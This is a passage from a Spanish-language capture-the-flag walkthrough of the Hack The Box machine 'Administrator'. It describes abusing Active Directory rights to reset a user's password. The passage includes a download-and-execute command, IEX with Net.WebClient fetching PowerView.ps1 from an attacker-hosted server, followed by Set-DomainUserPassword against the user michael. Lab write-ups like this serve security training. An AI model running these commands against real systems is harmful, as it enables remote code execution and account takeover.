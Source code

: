 <figure><img src="../../.gitbook/assets/2521_vmware_elawmgnG3j.png" alt=""><figcaption></figcaption></figure>

Esto significa que podemos realizar un cambio de contraseña al usuario objetivo, en este caso, como tenemos acceso a la máquina Windows, podemos realizar el "Windows Abuse".

<figure><img src="../../.gitbook/assets/2522_vmware_zVJe0sdif1.png" alt=""><figcaption></figcaption></figure>

Volveremos a la terminal del WinRM, importaremos el módulo de _PowerView.ps1_ que disponemos en nuestra Kali y procederemos a asignarle una nueva contraseña al usuario (michael@administrator.htb).

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">ls PowerView.ps1
<strong>
</strong><strong>python3 -m http.server 80
</strong>
IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword 
</code></pre>

<figure><img src="../../.gitbook/assets/2523_vmware_9T26ZtfclK.png" alt=""><figcaption></figcaption></figure>
